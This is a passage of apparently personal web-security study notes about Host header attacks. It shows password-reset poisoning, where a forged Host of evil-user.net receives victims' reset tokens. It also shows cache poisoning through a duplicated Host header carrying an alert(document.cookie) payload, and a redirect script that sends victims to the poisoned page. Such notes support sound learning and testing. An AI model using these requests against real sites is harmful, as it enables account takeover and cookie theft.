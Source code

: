 
```
POST /forgot-password HTTP/2
Host: evil-user.net
...

csrf=I8gZtcM8Q3oSyX1IoCTD75BKRWKLBq6R&username=carlos
```

On our server we will receive the token if the victim click the link on the email.

```
https://evil-user.net/reset?token=ac34fc4572a0e
```

# Web cache poisoning via the Host header

When probing for potential Host header attacks, you will often come across seemingly vulnerable behavior that isn't directly exploitable. Reflected, client-side vulnerabilities, such as XSS, are typically not exploitable when they're caused by the Host header. There is no way for an attacker to force a victim's browser to issue an incorrect host in a useful manner. 

However, if the target uses a web cache, it may be possible to turn this useless, reflected vulnerability into a dangerous, stored one by persuading the cache to serve a poisoned response to other users.

To construct a web cache poisoning attack, you need to elicit a response from the server that reflects an injected payload. The challenge is to do this while preserving a cache key that will still be mapped to other users' requests. If successful, the next step is to get this malicious response cached. It will then be served to any users who attempt to visit the affected page. 

Standalone caches typically include the Host header in the cache key, so this approach usually works best on integrated, application-level caches. That said, the techniques discussed earlier can sometimes enable you to poison even standalone web caches. 

Once we found that our host header is reflected and we can add our payload for example using ambiguous requests such as the example shown below:

```
GET /product?productId=1 HTTP/1.1
Host: vulnerable.com
Host: benjugat.com">alert(document.cookie);
```

We should send to our victim a link or something to retrieve the poisoned cache.

```
https://vulnerable.com/product?productId=1
```

```
<script>
document.location="https://vulnerable.com/product?productId=1"
</script>
```

# Accessing internal websites with virtual host brute-forcing
